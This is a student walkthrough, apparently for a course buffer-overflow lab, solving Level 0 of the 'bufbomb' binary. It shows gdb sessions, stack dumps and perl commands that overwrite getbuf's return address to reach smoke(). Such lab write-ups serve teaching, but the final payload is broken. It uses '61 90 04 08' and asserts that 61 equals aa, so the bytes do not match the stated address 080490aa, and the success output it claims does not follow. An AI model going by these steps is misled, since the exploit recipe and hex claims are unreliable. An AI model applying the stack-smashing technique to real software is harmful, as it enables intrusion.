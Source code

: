 Buffer Bomb
===========
5 phases where you exploit the getbuf() function in C and manipulate the outcome of the bufbomb executable file.

<h1>Level 0</h1>

Goal = provide a string longer than getbuf can handle causing an overflow and pushing the rest of the string onto the stack where you can then control where the function getbuf returns after exection.

Main Steps:

1. locate the address of the function ```Smoke()```

   To find the address of function ```Smoke()``` type:
   ```unix> objdump -d bufbomb | less```

   My address for ```Smoke()``` = 080490aa <smoke>:

   <b>WRITE DOWN the address for ```Smoke()``` as you will be using it later</b>


2. calculate the length of the string size to cause an overflow
   ```
   unix> gdb bufbomb
   (gdb) break getbuf
   (gdb) run -u quinnliu
   (gdb) break *getbuf+17
   (gdb) disas
   (gdb) info registers
   ```

   Gives you:

   ```
   (gdb) disas
   Dump of assembler code for function getbuf:
      0x08048c04 <+0>:     push   %ebp
      0x08048c05 <+1>:     mov    %esp,%ebp
      0x08048c07 <+3>:     sub    $0x38,%esp
   => 0x08048c0a <+6>:     lea    -0x28(%ebp),%eax
      0x08048c0d <+9>:     mov    %eax,(%esp)
      0x08048c10 <+12>:    call   0x8048b4a <Gets>
      0x08048c15 <+17>:    mov    $0x1,%eax
      0x08048c1a <+22>:    leave
      0x08048c1b <+23>:    ret
   End of assembler dump.
   (gdb) info registers
   eax            0x45789ae        72845742
   ecx            0x45789ae        72845742
   edx            0x3c1048 3936328
   ebx            0x0      0
   esp            0x55683318       0x55683318
   ebp            0x55683350       0x55683350
   esi            0x55686018       1432903704
   edi            0xc60    3168
   eip            0x8048c0a        0x8048c0a <getbuf+6>
   eflags         0x216    [ PF AF IF ]
   cs             0x23     35
   ss             0x2b     43
   ds             0x2b     43
   es             0x2b     43
   fs             0x0      0
   gs             0x63     99
   (gdb)
   ```

   Remember that the goal is to push a string that goes one address beyond the location of %ebp. 

   <b>WRITE DOWN %ebp address as you will be using it later. In my case:</b>

   %ebp = 0x55683350 

   getBuf() will take 32 characters. To modify the return address, we will need the buffer to extend to the address space right after %ebp on the stack or (%ebp)+4. So 32 bytes will be allocated to the buf variable for getbuf(). We need to look at the stack to determine the rest of the buffer size.

   Now quit out
   ```
   (gdb) q
   A debugging session is active.

           Inferior 1 [process 29088] will be killed.

   Quit anyway? (y or n) y
   ```

   Now create a test input file called "hex" and type a few commands
   ```
   unix> perl -e 'print "A"x32 '> hex
   unix> gdb bufbomb
   (gdb) break getbuf
   (gdb) break *getbuf+17
   (gdb) run -u quinnliu < hex
   (gdb) x/20x $esp
   (gdb) disas
   ```

   Gives you:

   ```
   (gdb) x/20x $esp
   0x55683318 <_reserved+1037080>: 0x55683330      0x00263b36      0x003c132c      0x55683328
   0x55683328 <_reserved+1037096>: 0x41723de3      0x00000000      0x55683350      0x08048b48
   0x55683338 <_reserved+1037112>: 0x00007399      0x5568338c      0x00000001      0x00000000
   0x55683348 <_reserved+1037128>: 0x55683370      0x003c0ff4      0x55683380      0x08048c93
   0x55683358 <_reserved+1037144>: 0x55683380      0x0027e610      0x55686018      0x00000c60
   (gdb) disas
   Dump of assembler code for function getbuf:
      0x08048c04 <+0>:     push   %ebp
      0x08048c05 <+1>:     mov    %esp,%ebp
      0x08048c07 <+3>:     sub    $0x38,%esp
   => 0x08048c0a <+6>:     lea    -0x28(%ebp),%eax
      0x08048c0d <+9>:     mov    %eax,(%esp)
      0x08048c10 <+12>:    call   0x8048b4a <Gets>
      0x08048c15 <+17>:    mov    $0x1,%eax
      0x08048c1a <+22>:    leave
      0x08048c1b <+23>:    ret
   End of assembler dump.
   ```

   Next type these commands:
   ```
   (gdb) continue
   (gdb) disas # notice that we are now at <+17>
   (gdb) x/20x $esp
   ```

   Gives you:
   ```
   (gdb) continue
   Continuing.

   Breakpoint 2, 0x08048c15 in getbuf ()
   (gdb) disas
   Dump of assembler code for function getbuf:
      0x08048c04 <+0>:     push   %ebp
      0x08048c05 <+1>:     mov    %esp,%ebp
      0x08048c07 <+3>:     sub    $0x38,%esp
      0x08048c0a <+6>:     lea    -0x28(%ebp),%eax
      0x08048c0d <+9>:     mov    %eax,(%esp)
      0x08048c10 <+12>:    call   0x8048b4a <Gets>
   => 0x08048c15 <+17>:    mov    $0x1,%eax
      0x08048c1a <+22>:    leave
      0x08048c1b <+23>:    ret
   End of assembler dump.
   (gdb) x/20x $esp
   0x55683318 <_reserved+1037080>: 0x55683328      0x00263b36      0x003c132c      0x55683328
   0x55683328 <_reserved+1037096>: 0x41414141      0x41414141      0x41414141      0x41414141
   0x55683338 <_reserved+1037112>: 0x41414141      0x41414141      0x41414141      0x41414141
   0x55683348 <_reserved+1037128>: 0x55683300      0x003c0ff4      0x55683380      0x08048c93
   0x55683358 <_reserved+1037144>: 0x55683380      0x0027e610      0x55686018      0x00000c60
   ```

   We can see that the "buf" variable stores its 32 byte string on the stack. Starting at address 0x55683328 and ending right before 0x55683348.

   startingAddressOfBufVariable = 0x55683328
   %ebp = 0x55683350 # I told you to write this down earlier

   buffer size = addressAt%ebp+4 - startingAddressOfBufVariable
               = 0x55683350   +4 - 0x55683328
               # make sure to use a hex calculator like this one: http://www.squarebox.com/legacy/hcalc.html
               = 2C # in hexadecimal = 44 bytes # in decimal

   We know that 32 bytes are used to store the "buf" variable as seen when we print out the registers after giving the "hex" file as input

   44 - 32 = 12 bytes left to fill the stack right before the return address(<= WHOLE POINT IS TO MANIPULATE THIS)

   Now quit out of gdb with ```q``` command and type:


3. create the buffer overflow string 

   ```
   bash-4.1$ perl -e 'print "A"x32 ,"B"x4, "C"x4, "D"x4 '>hex2
   bash-4.1$ ls
   bufbomb  exploit.txt  hex  hex2  hex2raw  makecookie
   bash-4.1$ less hex2
   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD

   Now use hex2 as your new input in gdb:
   ```
   unix> gdb bufbomb
   (gdb) break getbuf
   (gdb) break *getbuf+17
   (gdb) run -u quinnliu < hex2
   (gdb) x/20x $esp
   (gdb) continue
   (gdb) x/20x $esp 
   ```

   On the second call of ```(gdb) x/20x $esp``` you will see:

   ```
   (gdb) x/20x $esp
   0x55683318 <_reserved+1037080>: 0x55683328      0x00bafb36      0x00d0d32c       0x55683328
   0x55683328 <_reserved+1037096>: 0x41414141      0x41414141      0x41414141       0x41414141
   0x55683338 <_reserved+1037112>: 0x41414141      0x41414141      0x41414141       0x41414141
   0x55683348 <_reserved+1037128>: 0x42424242      0x43434343      0x44444444       0x08048c00
   0x55683358 <_reserved+1037144>: 0x55683380      0x00bca610      0x55686018       0x00000c60
   (gdb)
   ```

   Understand that our input file is:
   ```AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDD```
   where A = 41, B = 42, C = 43, & D = 44

   So DDDD = 0x44444444

   After DDDD is 0x08048c00 <= THIS IS THE RETURN ADDRESS WE BE CHANGE the address of ```Smoke()```!!!!!

4. force the function getbuf to return to fucntion ```Smoke()``` instead of returning the value 1.

   Find where you wrote down the address of ```Smoke()``` earlier. Mine is = 080490aa

   Because my machine is little endian the least significant byte is first.

   So 
   ```08 04 90 aa``` => ```aa 90 04 08```

   Now exit out of gdb:
   ```
   bash-4.1$ perl -e 'print "61 "x32, "BB "x4, "CC "x4, "DD "x4, "61 90 04 08" '>hex3
   ```
   WHERE 61 = aa

   Now using the hex2raw executable file you can convert the hex3 text file into a raw file to be submitted as your answer to the bufferbomb.

   Type:
   ```./hex2raw < hex3 > raw```

5. Almost there!!!!!!!!!!

   Now actually give your "raw" file as input to the Buffer Bomb:
   ```./bufbomb -u quinnliu < raw```

   And you should get the following output:
   ```
   Userid: quinnliu
   Cookie: 0x2d8cc70c
   Type string:Smoke!: You called smoke()
   VALID
   NICE JOB!
   ```